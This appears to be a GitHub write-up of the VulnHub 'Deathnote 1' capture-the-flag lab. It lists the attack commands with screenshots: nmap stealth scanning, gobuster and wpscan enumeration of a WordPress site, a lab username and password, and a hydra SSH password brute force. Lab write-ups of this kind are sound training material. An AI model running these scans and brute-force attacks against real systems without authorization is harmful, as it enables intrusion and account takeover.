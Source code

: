 # DEATHNOTE-1-VulnHub
Level - easy  Description : don't waste too much time thinking outside the box . It is a Straight forward box .  This works better with VirtualBox rather than VMware

<p>netdiscover -i eth0</p>

![Screenshot 2024-03-22 194002](https://github.com/Gheris-579/DEATHNOTE-1-VulnHub/assets/103877241/bd50c87b-ee50-4f1d-bd85-d3d282cf0704)

<p>nmap -sS -sV -sC -p- ip</p>
<ol>
  <li>The -sS option in nmap tells you to perform a stealth scan, that is, a scan in which the software tries not to be detected by the target host.</li>
  <li>The -sV option in nmap tells you to perform a version scan, that is, to try to identify the versions of services that respond to open ports.</li>
  <li>The -sC option in nmap tells you to run a scan script, that is, to use a set of predefined scripts to search for vulnerabilities or other information about running services.</li>
</ol>

![Screenshot 2024-03-22 194247](https://github.com/Gheris-579/DEATHNOTE-1-VulnHub/assets/103877241/de40d3b2-7c62-40a4-bcbc-69b676bbc743)

<p>nano /etc/hosts</p>

![Screenshot 2024-03-22 194610](https://github.com/Gheris-579/DEATHNOTE-1-VulnHub/assets/103877241/25ccb3f2-dad2-4e3e-8bed-f1367d0374f7)

![Screenshot 2024-03-22 194915](https://github.com/Gheris-579/DEATHNOTE-1-VulnHub/assets/103877241/8bb24cc1-ca44-41f6-bd2d-2e84488aea47)


![Screenshot 2024-03-22 195256](https://github.com/Gheris-579/DEATHNOTE-1-VulnHub/assets/103877241/31fa0e66-003e-4cc9-a9f5-dd6f4bea5abb)

<p>this page was created with WordPress.</p>

![Screenshot 2024-03-22 195453](https://github.com/Gheris-579/DEATHNOTE-1-VulnHub/assets/103877241/1a213f8e-7922-44a7-a950-32301ffe8234)

<p>gobuster dir -u http://deathnote.vuln/wordpress/ -w /usr/share/wordlists/Discovery/Web-Content/directory-list-2.3-medium.txt</p>

![Screenshot 2024-03-22 195823](https://github.com/Gheris-579/DEATHNOTE-1-VulnHub/assets/103877241/904ab1b4-463b-4805-856e-8374ac12eab5)

![Screenshot 2024-03-22 200338](https://github.com/Gheris-579/DEATHNOTE-1-VulnHub/assets/103877241/ab8662f6-f682-4483-a56b-65baa252b720)

<p>wpscan --url http://deathnote.vuln/wordpress/ -e u</p>

![Screenshot 2024-03-22 200817](https://github.com/Gheris-579/DEATHNOTE-1-VulnHub/assets/103877241/fabeefba-235e-4615-8f59-e5a9fd46b509)

<p>Password</p>

![7](https://github.com/Gheris-579/DEATHNOTE-1-VulnHub/assets/103877241/0b34962d-aa78-4cd4-a963-4364c8c689ec)


<p>User:kira  pass:iamjustic3</p>

![Screenshot 2024-03-22 201122](https://github.com/Gheris-579/DEATHNOTE-1-VulnHub/assets/103877241/aadcd586-5e17-4546-8bae-7cd7f295dd91)


![Screenshot 2024-03-22 202604](https://github.com/Gheris-579/DEATHNOTE-1-VulnHub/assets/103877241/8df873c2-f174-4984-a9d2-10bef858ec54)


<p>hydra -l l -P note ssh://192.168.56.103</p>

<ol>
  <li>l in username</li>
</ol>

![Screenshot 2024-03-22 203211](https://github.com/Gheris-579/DEATHNOTE-1-VulnHub/assets/103877241/bbf7ca5a-468f-4813-b58d-3c8a030a34ed)
